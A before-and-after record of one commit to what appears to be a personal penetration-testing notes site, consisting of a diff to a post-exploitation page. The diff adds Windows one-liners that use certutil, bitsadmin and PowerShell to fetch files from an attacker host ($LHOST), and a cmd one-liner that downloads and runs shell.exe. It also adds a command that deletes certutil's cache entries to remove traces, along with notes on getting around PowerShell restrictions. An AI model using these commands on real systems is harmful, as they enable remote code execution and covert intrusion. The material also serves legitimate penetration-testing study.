

Before and after one commit to v0idravl/hakiki, a Jekyll site: the page built from post_exploitation/post_exploit_main.md, in a window 1280 px wide and 900 px high, scrolled down 1936 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
post-exploit: certutil/bitsadmin Windows downloader notes (Win2008 R2+ floor, -split, cache cleanup)

````diff
--- a/post_exploitation/post_exploit_main.md
+++ b/post_exploitation/post_exploit_main.md
@@ -97,15 +97,25 @@ curl http://$LHOST:8000/file -o /tmp/file
 (New-Object Net.WebClient).DownloadFile("http://$LHOST:8000/file.exe","C:\Windows\Temp\file.exe")
 iwr -Uri "http://$LHOST:8000/file.exe" -OutFile "C:\Windows\Temp\file.exe"
 
-# certutil (often not blocked)
-certutil.exe -urlcache -f http://$LHOST:8000/file.exe C:\Windows\Temp\file.exe
+# certutil — built in on Win2008 R2+ (all 2012/2016/2019); no PowerShell, no exec policy.
+# -split keeps binaries intact. Works in IIS/service-account contexts where bitsadmin is missing.
+certutil.exe -urlcache -split -f http://$LHOST:8000/file.exe C:\Windows\Temp\file.exe
+# Cleanup — certutil leaves a URL-cache entry + a copy in Temporary Internet Files:
+certutil.exe -urlcache -f http://$LHOST:8000/file.exe delete
+
+# bitsadmin (legacy fallback, also no PowerShell)
+bitsadmin /transfer job http://$LHOST:8000/file.exe C:\Windows\Temp\file.exe
 
 # From SMB share (no HTTP needed)
 copy \\$LHOST\share\file.exe C:\Windows\Temp\file.exe
 
 # CMD one-liner to download + run
-cmd /c "certutil.exe -urlcache -f http://$LHOST:8000/shell.exe C:\Windows\Temp\s.exe && C:\Windows\Temp\s.exe"
+cmd /c "certutil.exe -urlcache -split -f http://$LHOST:8000/shell.exe C:\Windows\Temp\s.exe && C:\Windows\Temp\s.exe"
 ```
+
+> certutil predates Win10 but the version floor matters: `-urlcache -split` is reliable from
+> Win2008 R2 onward. On pre-Win10 targets it is the go-to downloader when PowerShell is locked
+> down or bitsadmin is absent.
 
 ### Base64 copy-paste transfer (no network required)
 
````
